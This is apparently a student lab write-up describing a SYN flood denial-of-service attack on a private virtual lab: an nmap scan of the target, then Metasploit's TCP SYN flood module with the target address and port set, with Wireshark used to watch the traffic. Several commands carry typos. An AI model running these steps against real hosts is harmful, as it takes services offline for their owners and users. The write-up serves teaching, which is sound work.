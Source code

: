# Attack Machine Setup
This is a separate virtual machine with an IP Address of _192.168.166.202_

1. To start, we will use 'nmap' to search the target machine to find an open port.  'nmap 192.168.166.201'
![Attack1](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack1.png)

Nmap returns that port 80/tcp is open. This makes sense beacuse the target machin is running and HTTP server

2. The next step is to get ready to run the Metasploit console.  The first step is to ensure that postgresql is running
  '# /etc/init.d/postgresqlstatus'
  
  '#/etc/init.d/postgresqlstart'
  
  This starts the postgresql services.  Next we have to initialize the Metasploit database.
  
  '# msfdbinit'
  
  Once that is conplete, we can execute the Metasploit console
  
  '# msfconsole'
  
  ![Attack2](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack2.png)
  
 3. Now we can prepare Metaspliot to carry out our SYN Flood Attack.
 
  First, we select the auxiliary that will run the attack.
  'use auxiliary/dos/tcp/synfloof'
  
  Next set the target host's IP address.
  
  'set RHOSTS 192.168.166.201'
  
  The default target port should be 80, however it can be set using the following.
  
  'set RPORT 80'
  
  Once all the information is input, the attack can be executed with this command.
  
  'exploit'
  
  3. Durring the attack, Wireshark can be used to view how many packets have been sent to the target.
  
  ![Attack3](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack3.png)
  
  The highlighted portion shows that we have sent 119,591 packets to the target machine at this point in time
  
  Similarly, if we want to see how this is effecting the host machine, we can attempt to connect to the host site using the host's IP address.  The site should be slow to load or inaccessible entirely.  On the host machine, we can load the system info application and look at the network load
  
  ![Attack4](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack4.png)
 
  
